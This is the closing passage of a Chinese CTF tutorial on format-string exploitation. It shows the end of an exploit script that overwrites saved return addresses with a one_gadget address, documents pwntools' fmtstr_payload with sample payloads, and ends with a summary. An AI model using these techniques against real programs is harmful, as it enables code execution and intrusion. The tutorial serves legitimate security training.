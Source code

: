 ```python

#set main_ret = one_gadget
num = int(hex(one_addr & 0xff0000)[:-4],16) - 3
cover(num, save_main_ret + 2, 1)
num = (one_addr & 0xffff) - 3
cover(num, save_main_ret, 2)

#set logging_ret = leave --> ret to main_ret
num = (leave_addr & 0xffff) - 3
cover(num, save_logging_ret, 2)

p.interactive()
```

### pwntools pwnlib.fmtstr 模块

```python
pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
```

#### 参数：

- **offset** ( [*int*](https://docs.python.org/3.8/library/functions.html#int) ) – 您控制的第一个格式化程序的偏移量
- **writes** ( [*dict*](https://docs.python.org/3.8/library/stdtypes.html#dict) ) – 带有 addr, value 的字典`{addr: value, addr2: value2}`
- **numbwritten** ( [*int*](https://docs.python.org/3.8/library/functions.html#int) ) – printf 函数已写入的字节数
- **write\_size** ( [*str*](https://docs.python.org/3.8/library/stdtypes.html#str) ) – 必须是`byte`,`short`或`int`. 告诉您是否要逐字节写入，short by short 或 int by int（hhn，hn 或 n）
- **溢出**( [*int*](https://docs.python.org/3.8/library/functions.html#int) ) – 为减少格式字符串的长度，可以容忍多少额外溢出（大小为 sz）
- **strategy** ( [*str*](https://docs.python.org/3.8/library/stdtypes.html#str) ) – 'fast' 或 'small' （'small' 是默认值，如果有很多写入，可以使用 'fast'）

#### 返回值：

​ **用于执行所需写入的有效负载**

#### 例子：

```php
>>> fmtstr_payload(1, {0x0: 0x00000001}, write_size='byte')
b'%1c%3$na\x00\x00\x00\x00'
>>> fmtstr_payload(1, {0x0: b"\xff\xff\x04\x11\x00\x00\x00\x00"}, write_size='short')
b'%327679c%7$lln%18c%8$hhn\x00\x00\x00\x00\x03\x00\x00\x00'
```

感兴趣的小伙伴还可以去看看pwndbg的官方文档，里面还有很多其他的关于格式化字符串漏洞利用的函数，使用它们可以让你在格式化字符串漏洞的利用上更加轻松顺手。

总结
--

格式化字符串的利用非常灵活，不仅仅是上面例题所说的几种利用方法，但是其应对方法的核心是不变的，只要熟练掌握原理就没问题。比赛中它一般作为题目的一部分出现，往往还要结合很多其他的知识才能完成。
